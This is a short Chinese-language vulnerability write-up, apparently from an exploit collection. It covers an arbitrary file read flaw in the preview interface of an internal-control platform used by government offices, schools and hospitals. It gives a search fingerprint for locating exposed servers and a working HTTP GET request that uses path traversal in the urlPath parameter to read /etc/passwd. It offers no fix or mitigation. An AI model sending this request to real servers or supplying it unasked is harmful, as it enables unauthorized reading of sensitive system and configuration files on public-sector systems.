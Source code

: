 # 真内控国产化平台preview存在任意文件读取漏洞

# 一、漏洞简介
真内控国产化平台是基于国产可控技术开发的内部控制管理咨询及信息化服务平台。该平台涵盖了预算绩效、支出管理、采购管理、合同管理、资产管理、基建项目管理等多个模块，为公共部门（包括政府部门、科研机构、学校、医院等）提供全方位的经济活动内部控制解决方案。真内控国产化平台 preview接口存在一个任意文件读取漏洞，攻击者可以通过构造精心设计的请求，成功利用漏洞读取服务器上的任意文件，包括敏感系统文件和应用程序配置文件等。通过利用此漏洞，攻击者可能获得系统内的敏感信息，导致潜在的信息泄露风险。

# 二、影响版本
真内控国产化平台

# 三、资产测绘
```plain
body="js/npm.echarts.js"
```

![1718991802147-8b55da97-545e-456a-b18e-fa349435c2ae.png](./img/PUn3lRwoNJ9lQ-zV/1718991802147-8b55da97-545e-456a-b18e-fa349435c2ae-033492.png)

# 四、漏洞复现
```java
GET /print/billPdf/preview?urlPath=../../../../../../../../../../../../../../etc/passwd  HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![1718991623666-59807fc9-1c16-4ff4-bb86-305f12a4f0b5.png](./img/PUn3lRwoNJ9lQ-zV/1718991623666-59807fc9-1c16-4ff4-bb86-305f12a4f0b5-514760.png)



> 更新: 2024-06-23 23:42:48  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/um00s8xep779vpgx>